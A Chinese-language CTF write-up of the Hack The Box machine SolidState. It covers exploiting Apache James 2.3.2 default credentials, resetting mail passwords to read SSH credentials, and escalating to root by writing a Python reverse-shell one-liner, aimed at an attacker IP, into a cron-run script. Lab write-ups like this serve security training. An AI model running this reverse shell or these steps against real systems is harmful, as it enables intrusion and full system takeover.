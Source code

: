 # SolidState

**solidstate是hackthebox上一台中等难度的靶机**

- 首先使用nmap简单的扫描一下端口和可能的漏洞

![image-20211030101948613](http://cdn.mxrblog.cn/image-20211030101948613.png)

![image-20211029165916963](http://cdn.mxrblog.cn/image-20211029165916963.png)

- 浏览器上打开http://10.10.10.51:80

![image-20211029170000325](http://cdn.mxrblog.cn/image-20211029170000325.png)

- 扫描一下网站的目录

![image-20211030093859826](http://cdn.mxrblog.cn/image-20211030093859826.png)

- 查看README.txt

![image-20211030093923009](http://cdn.mxrblog.cn/image-20211030093923009.png)

- 通过之前namp扫描出的james 2.3.2， 查看这个是否有漏洞
- 发现漏洞，查看漏洞脚本，并且执行

![image-20211030100123651](http://cdn.mxrblog.cn/image-20211030100123651.png)

- 脚本返回结果是让我们在·本地监听，等到我们登陆的时候就会将shell返回给我们
- 再次查看py脚本，上面说james的默认登录名和密码都是root

![image-20211030100601637](http://cdn.mxrblog.cn/image-20211030100601637.png)

- nc登录下

![image-20211030102144765](http://cdn.mxrblog.cn/image-20211030102144765.png)

- 使用setpassword改变里面每个用户的密码

![image-20211030102618364](http://cdn.mxrblog.cn/image-20211030102618364.png)

- 登录110 端口并阅读邮件

```
┌──(kali㉿kali)-[~]
└─$ telnet 10.10.10.51 110                                                     
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
user mindy
+OK
pass 1234
+OK Welcome mindy
retr 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 798
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
From: mailadmin@localhost
Subject: Welcome

Dear Mindy,
Welcome to Solid State Security Cyber team! We are delighted you are joining us as a junior defense analyst. Your role is critical in fulfilling the mission of our orginzation. The enclosed information is designed to serve as an introduction to Cyber Security and provide resources that will help you make a smooth transition into your new role. The Cyber team is here to support your transition so, please know that you can call on any of us to assist you.

We are looking forward to you joining our team and your success at Solid State Security. 

Respectfully,
James

```

```
retr 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James

```

- 发现邮件中已经给出了ssh需要的用户名与密码，登录

![image-20211030141945415](http://cdn.mxrblog.cn/image-20211030141945415.png)

- 此时我们nc监听的4444端口也已经收到了shell

![image-20211030142033202](http://cdn.mxrblog.cn/image-20211030142033202.png)

- 使用LinEnum.sh查看可以提权的文件

`./LinEnum.sh -t`

![image-20211030160102618](http://cdn.mxrblog.cn/image-20211030160102618.png)

- 利用/opt/tmp.py 提权

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > /opt/tmp.py
```

- 无需运行脚本，等待一会后，kali上的nc监听会自动收到一个shell
- 获得root

![image-20211030162655751](http://cdn.mxrblog.cn/image-20211030162655751.png)
